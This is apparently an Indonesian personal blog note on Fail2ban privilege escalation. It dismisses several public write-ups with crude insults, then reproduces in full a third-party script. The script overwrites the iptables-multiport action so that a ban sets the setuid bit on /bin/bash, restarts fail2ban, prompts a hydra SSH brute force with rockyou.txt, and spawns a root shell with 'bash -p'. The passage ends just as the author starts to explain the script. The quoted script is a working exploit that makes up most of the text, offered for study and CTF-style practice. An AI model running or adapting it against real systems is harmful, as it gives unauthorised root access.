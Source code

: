 ```yaml
---
layout: post
title: 'Note: Fail2ban PrivEsc'
date: 2022-12-28
---
```


Nyari sana sini ternyata beberapa blog ini, tidak berguna.

* [Author: Youssef Ichioui](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
* [Title: The Cyber Security Library](https://oklencodes.gitbook.io/untitled/ctfs/biteme-ctf/fail2ban-privilege-escalation)
* [Author: JAY BHATT](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)
* [Author: rvizx](https://github.com/rvizx/fail2ban)

Bukan untuk menghina atau apa, tetapi saya mencoba semua metode itu yang memang kesannya `plagiarism` tetap tidak bisa ditolerir dan metode mereka semua sampah.
> Yaelah, kayanya lu aja yang lupa ngecek versinya

Matamu tak picek kene.
> Mungkin lu ga liat konfigurasinya aja bro, blablab

Raimu tak geplak kene, asu.

### Analyzing code of Rvizx's script
```sh
#!/usr/bin/bash

# title : fail2ban-privesc
# author : Ravindu Wickramasinghe (@rvizx9)


echo '
+==============================+
|  fail2ban-privesc | @rvizx9  |
+==============================+

'

conf="
[INCLUDES]
before = iptables-common.conf
[Definition]

actionstart = <iptables> -N f2b-<name>
              <iptables> -A f2b-<name> -j <returntype>
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'
actionban = chmod 4755 /bin/bash
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]
"

rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
echo "$conf" > iptables-multiport.conf
mv iptables-multiport.conf /etc/fail2ban/action.d/
sudo /etc/init.d/fail2ban restart
ip -br -c a

echo "[!] start to bruteforce ssh login."
echo "[run] @attacker : hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh"
echo "[!] bash -p will be executed in 100s"
sleep 100
bash -p
```
Saya jelaskan dulu bagaimana kode ini bekerja dan membuat muak hidup saya hingga 1 jam untuk melihat bahwasanya ini adalah hal konyol. Saya tidak menggunakan script ini untuk dieksekusi, tetapi saya menggunakan ini sebagai shortcut untuk melihat apakah pasti atau tidak.
